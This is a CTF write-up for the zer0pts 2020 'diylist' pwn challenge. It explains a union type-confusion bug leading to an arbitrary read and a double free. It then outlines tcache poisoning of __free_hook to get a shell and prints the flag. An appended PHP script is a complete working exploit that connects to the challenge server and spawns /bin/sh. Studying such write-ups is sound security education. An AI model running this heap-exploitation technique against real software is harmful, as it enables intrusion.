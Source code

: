 # diylist - zer0pts CTF 2020 (pwn, 453p, 36 solved)
## Introduction

diylist is a pwn task.

An archive containing a binary, a library, and its source code is provided.

The binary allows the user to manage a to-do list. The list can contain a value
of type char, long or double.

## Vulnerability

The list is internally represented by a structure and an union:
```c
typedef union {
  char *p_char;
  long d_long;
  double d_double;
} Data;

typedef struct {
  int size;
  int max;
  Data *data;
} List;
```

Unions often leads to type confusion bugs.

The user is asked what type his list is prior to showing it. It is possible to
confuse a long value with a string pointer, leading to an arbitrary read
vulnerability.

When adding a string item, its value is duplicated with `strdup` in a pool of
strings. When deleting this item the binary will search for the pointer in this
pool, and free it if it present. The pointer is not removed from the pool.

This cause a problem if an attacker can predict the address at which a string is
allocated. If they do, they can allocate a new item with a long value that
contains a pointer to a free string. The binary will then free it a second time
because the value, albeit not a string, is present in the string pool.

This causes as double-free vulnerability.

## Exploitation

The exploitation is quite straightforward, and goes like this:
1. create a long item with a value that points to the binary's `.GOT.PLT`
   section
2. read this value as a string to leak a libc address
3. create a string item
4. read this value as a long to leak the heap address
5. create a new long value that contains the heap address
6. free both values to get a double free
7. abuse the regular tcache-poisoning attack to allocate an arbitrary buffer in
   libc's `__free_hook`

The usual strategy is to replace `__free_hook` with `system` and call `free` on
a buffer that contains `/bin/sh`.

**Flag**: `zer0pts{m4y_th3_typ3_b3_w1th_y0u}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php
require_once("Socket.php");

function menu(Tube $t)
{
	$t->expectLine("1. list_add");
	$t->expectLine("2. list_get");
	$t->expectLine("3. list_edit");
	$t->expectLine("4. list_del");
	$t->expect("> ");
}

function add(Tube $t, $type, $data)
{
	menu($t);
	$t->write("1\n");

	$t->expect("Type(long=1/double=2/str=3): ");
	$t->write("$type\n");

	$t->expect("Data: ");
	$t->write($data);
}

function get(Tube $t, $idx, $type)
{
	menu($t);
	$t->write("2\n");

	$t->expect("Index: ");
	$t->write("$idx\n");

	$t->expect("Type(long=1/double=2/str=3): ");
	$t->write("$type\n");

	$t->expect("Data: ");
	return $t->readLine();
}

function edit(Tube $t, $idx, $type, $data)
{
	menu($t);
	$t->write("3\n");

	$t->expect("Index: ");
	$t->write("$idx\n");

	$t->expect("Type(long=1/double=2/str=3): ");
	$t->write("$type\n");

	$t->expect("Data: ");
	$t->write($data);
}


function del(Tube $t, $idx, $early = false)
{
	menu($t);
	$t->write("4\n");

	$t->expect("Index: ");
	$t->write("$idx\n");

	if($early)
		return;

	$t->expectLine("Successfully removed");
}

$t = new Socket("13.231.207.73", 9007);


/* Payload */
add($t, 3, "/bin/sh\0");

/* Leak libc */
add($t, 1, 0x00602018); // puts
$leak = get($t, 1, 3);
$leak = str_pad($leak, 8, "\x00");
$addr = unpack("Q", $leak)[1];
$libc = $addr - 0x00000000000809c0;
printf("libc: %X\n", $libc);
del($t, 1);

/* Leak heap */
add($t, 3, "XeR");
$heap = 0 | get($t, 1, 1);
printf("heap: %x\n", $heap);

/* Double free */
add($t, 1, $heap);
del($t, 2);
del($t, 1);


add($t, 3, pack("Q", $libc + 0x003ed8e8));
add($t, 3, pack("Q", 0));
add($t, 3, pack("Q", $libc + 0x0004f440));

del($t, 0, true);


printf("shell\n");
$t->pipe();
```

